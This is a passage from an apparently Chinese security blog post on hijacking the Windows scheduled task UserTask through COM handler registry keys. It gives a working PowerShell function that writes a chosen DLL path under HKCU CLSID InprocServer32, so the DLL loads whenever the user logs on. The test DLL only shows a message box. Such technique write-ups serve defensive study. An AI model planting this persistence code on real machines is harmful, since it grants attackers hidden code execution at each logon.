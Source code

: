 查看Scheduled Task面板的日志，问题解决，操作成功完成，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-8-22/2-4.png)

以上操作可通过powershell自动实现，修改UserTask的代码如下：

```
function Invoke-ScheduledTaskComHandlerUserTask
{
    [CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
    Param (
        [Parameter(Mandatory = $True)]
        [ValidateNotNullOrEmpty()]
        [String]
        $Command,

        [Switch]
        $Force
    )
    $ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
    if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
        New-Item $ScheduledTaskCommandPath -Force |
            New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
    }else{
        Write-Verbose "Key already exists, consider using -Force"
        exit
    }

    if (Test-Path $ScheduledTaskCommandPath) {
        Write-Verbose "Created registry entries to hijack the UserTask"
    }else{
        Write-Warning "Failed to create registry key, exiting"
        exit
    }  
}
Invoke-ScheduledTaskComHandlerUserTask -Command "C:\test\testmsg.dll" -Verbose

```
测试系统： Win7 x86

在运行后，当用户重新登录后，加载dll，实际演示如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-8-22/2-5.gif)

依次执行DLL_PROCESS_ATTACH()和DllGetClassObject(),由于DllGetClassObject()仅作弹框，所以之后会显示taskhost.exe报错

**注：**
此处仅作演示，暂不介绍具体解决方法

至此，成功劫持计划任务UserTask，在系统启动时加载testmsg.dll
